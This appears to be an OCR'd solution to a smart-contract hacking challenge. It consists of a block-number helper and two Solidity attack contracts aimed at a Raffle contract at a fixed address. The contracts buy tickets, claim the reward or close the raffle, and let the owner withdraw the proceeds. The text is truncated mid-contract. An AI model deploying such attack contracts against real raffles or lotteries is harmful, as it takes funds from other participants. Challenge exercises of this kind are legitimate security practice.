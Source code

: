 Solution:

~~~solidity
contract Test{

    function getBlockNum() public view returns(uint) {
        return block.number;
    }
}


pragma solidity 0.4.24;

import "./Raffle.sol";

contract AttackContract1{
    address owner;
    Raffle raffle = Raffle(0xB410d1087c42d7D8136257B2e4ce966ed64742Ed);

    constructor() public {
        owner = msg.sender;
    }

    function withdraw() public {
        if (msg.sender == owner) {
            msg.sender.transfer(address(this).balance); 
        }
    }

    function attack() public payable{
        require(msg.value == 0.1 ether);
        raffle.buyTicket.value(0.1 ether)();
    }

    function claimReward() public payable{
        raffle.collectReward();
    }
    function() public payable{}
}

pragma solidity 0.4.24;

import "./Raffle.sol";

contract AttackContract2{
    address owner;
    Raffle raffle = Raffle(0xB410d1087c42d7D8136257B2e4ce966ed64742Ed);

    constructor() public {
        owner = msg.sender;
    }

    function withdraw() public {
        if (msg.sender == owner) {
            msg.sender.transfer(address(this).balance); 
        }
    }

    function attack() public payable{
        require(msg.value == 0.1 ether);
        raffle.buyTicket.value(0.1 ether)();
    }
    function closeRaffle() public payable{
        raffle.closeRaffle();
~~~